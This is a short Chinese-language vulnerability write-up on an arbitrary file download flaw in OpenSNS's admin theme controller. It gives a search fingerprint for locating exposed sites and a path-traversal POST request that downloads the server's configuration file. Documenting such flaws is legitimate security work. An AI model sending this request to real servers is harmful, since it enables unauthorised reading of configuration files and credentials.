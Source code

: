 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154815562](images/202205181548621.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![image-20220518154826306](images/202205181548388.png)

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![image-20220518154838931](images/202205181548023.png)

构造请求

```
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![image-20220518154851785](images/202205181548889.png)